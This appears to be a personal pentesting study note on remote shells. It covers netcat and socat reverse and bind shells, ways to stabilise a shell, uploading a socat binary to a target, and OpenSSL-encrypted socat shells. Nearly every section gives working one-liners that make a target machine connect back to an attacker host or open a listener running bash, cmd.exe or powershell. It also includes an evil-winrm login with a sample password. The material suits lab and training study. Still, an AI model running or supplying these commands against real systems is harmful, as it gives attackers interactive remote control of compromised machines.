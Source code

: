 # Two most known types
1. Reverse shells
are when the target is forced to execute code that connects back to your computer. 

  - Example: `sudo nc -lvnp 443` to start listner on attacker's machine, and `nc <LOCAL-IP> <PORT> -e /bin/bash` to set a reverse shell on the target's machine.

2. Bind shells
are when the code executed on the target is used to start a listener attached to a shell directly on the target. This would then be opened up to the internet, meaning you can connect to the port that the code has opened and obtain remote code execution that way.

  - Example: `nc -lvnp <port> -e "cmd.exe"` through a evil-winrm `evil-winrm -i <localIP>-u Adminstrator -p 'Try4ackM3'` on the target machine to set a listening port, and `nc MACHINE_IP <port>` on attacker's machine to connect to the target.

The important thing to understand here is that we are listening on the target, then connecting to it with our own machine.

## Shells can be either interactive or non-interactive
1. interactive: These allow you to interact with programs after executing them. For example, take the SSH login prompt. Examples include: Powershell, Bash, Zsh, sh, or any other standard CLI environment.

2. non-interactive: In a non-interactive shell you are limited to using programs which do not require user interaction in order to run properly, like whoami for example.

# netcat shells stabilisation
### python
1. first step is `python -c 'import pty;pty.spawn("/bin/bash")'` which gets us a better featured bash shell. we might need to replace python with python2 or python3 as required.
2. second step is: `export TERM=xterm` -- this will give us access to term commands such as clear.
3. `stty raw -echo; fg` -- This does two things: first, it turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes). then foregrounds the shell, thus completing the process.
    > Note that if the shell dies, any input in your own terminal will not be visible (as a result of having disabled terminal echo). To fix this, type reset and press enter.

### rlwrap
rlwrap is a program which, in simple terms, gives us access to history, tab autocompletion and the arrow keys immediately upon receiving a shell. To use rlwrap, we invoke a slightly different listener: `rlwrap nc -lvnp <port>`.

This gives us a much more fully featured shell. This technique is particularly useful when dealing with Windows shells, cuz they are difficult to stabilise. When dealing with a Linux target, it's possible to completely stabilise, by using the same trick as in step three of the previous technique: background the shell with `Ctrl + Z`, then use `stty raw -echo; fg` to stabilise and re-enter the shell.

### Socat
1. we would first transfer a socat static compiled binary up to the target machine. How? set up a web server using `sudo python3 -m http.server 80` and download using `wget <LOCAL-IP>/socat -O /tmp/socat)` or on windows using `Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe`.

    > This technique is limited to Linux targets, as a Socat shell on Windows will be no more stable than a netcat shell.

> With any of the above techniques, it's useful to be able to change your terminal tty size if you want to use something like a text editor. use `stty -a` to show the current values and `stty cols <num>`/`stty rows <num>` to set a new value. 

# Socat
### reverse shells
1. `socat TCP-L:<port> -` is an equivalent for `nc -lvnp <port>`.
2. For Windows target we use `socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes` to connect back. The "pipes" option is used to force powershell (or cmd.exe) to use Unix style standard input and output. while for Linux target we use `socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"`

### bind shells
1. For linux target we use `socat TCP-L:<PORT> EXEC:"bash -li"`, while for windows we use `socat TCP-L:<PORT> EXEC:powershell.exe,pipes`.
2. on attacker's machine we use `socat TCP:<TARGET-IP>:<TARGET-PORT> -` to connect to the listening target.

### Fully stable Linux tty reverse shell
This technique is one of its most useful applications. Here is the new listener syntax: (works only for linux targets) `socat TCP-L:<port> FILE:`tty`,raw,echo=0` which is equivalent to using the `Ctrl + Z`, `stty raw -echo; fg` trick with a netcat shell -- with the added bonus of being immediately stable and hooking into a full tty.

this special listener must be activated with a very specific socat command. This means that the target must have socat installed. Most machines do not have socat installed by default, however, it's possible to upload a precompiled socat binary, which can then be executed as normal.

The special command is as follows: `socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane`.

The first part is easy -- we're linking up with the listener running on our own machine. The second part of the command creates an interactive bash session with  EXEC:"bash -li". We're also passing the arguments:
- pty, allocates a pseudoterminal on the target -- part of the stabilisation process
- stderr, makes sure that any error messages get shown in the shell (often a problem with non-interactive shells)
- sigint, passes any Ctrl + C commands through into the sub-process, allowing us to kill commands inside the shell
- setsid, creates the process in a new session
- sane, stabilises the terminal, attempting to "normalise" it.

### Example: (attacker< >target)
![image](https://github.com/user-attachments/assets/8ac883f6-5955-42d7-986b-c18692ab4bb3)

### encrypted shells
Socat is capable of creating encrypted shells -- both bind and reverse. Suffice to say that any time TCP was used as part of a command, this should be replaced with OPENSSL when working with encrypted shells. 

Steps to use the feature:
1. We first need to generate a certificate. on our attacking machine: `openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt`.
2. We then need to merge the two created files into a single .pem file: `cat shell.key shell.crt > shell.pem`
3. to set up a reverse shell listener `socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -`
4. To connect back, we would use: `socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash`
5. The same technique would apply for a bind shell:
  - Target: `socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes`
  - Attacker: `socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -`
